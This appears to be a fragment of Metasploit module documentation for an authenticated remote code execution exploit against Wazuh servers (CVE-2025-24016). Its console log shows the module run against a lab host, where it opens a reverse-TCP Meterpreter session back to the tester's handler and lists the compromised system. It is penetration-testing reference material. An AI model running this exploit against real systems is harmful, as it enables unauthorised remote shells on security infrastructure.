 ```msf
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wazuh_auth_rce_cve_2025_24016) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Wazuh version 4.8.2
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.85
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.85:58215) at 2025-07-16 08:14:53 +0000

meterpreter > getuid
Server username: wazuh
meterpreter > sysinfo
Computer     : wazuh.master
OS           :  (Linux 6.10.14-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/
meterpreter >
```

## Limitations
This module works only on a Wazuh Server multi-node cluster configuration.
